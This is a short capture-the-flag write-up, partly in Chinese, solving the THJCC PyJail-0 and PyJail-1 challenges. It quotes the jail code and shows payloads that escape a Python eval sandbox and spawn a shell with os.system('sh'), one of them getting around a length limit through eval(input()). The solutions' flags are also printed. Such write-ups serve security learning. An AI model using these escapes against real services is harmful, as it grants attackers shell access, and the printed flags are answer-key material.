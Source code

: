 > THJCC{S1TC0N_2o2A_a1l_hAnDs0m3_9uY5}

### PyJail-0 

```bash!
nc 23.146.248.36 40000

Try to escape it!

Author:Naup堇姬
```

* 直接拿你輸入的東西去 eval，沒有擋任何東西

```python!
__import__('os').system('sh')
```

> FLAG : THJCC{Use_M2g1c_f2un3ti0n_in_P9Ja1l!!}

### PyJail-1 

```bash!
nc 23.146.248.36 40001

Try to escape it!I increased security!

Author:Naup堇姬
```

```python!
        print("Try to escape!!This is a jail")
        print("I increased security!!!")
        a=input("> ")
        if len(a)<15:
            eval(a)
        else:
            print("Don't escape!!")
    except:
        print("error")
        exit()
```

* 限制了 15 的長度，否則拿去 eval
* 上網找一下資料，找到 [這個](https://hackmd.io/@sdHUgwi_RuWXfWL7njKG3A/BkGRIJKsi)

```python!
eval(input())
__import__('os').system('sh')
```

* 就可以拿到 shell 了~

> FLAG : THJCC{Inp3t_b9p2sss_lim1t_1n+p3j2i1!}

### Evil Form
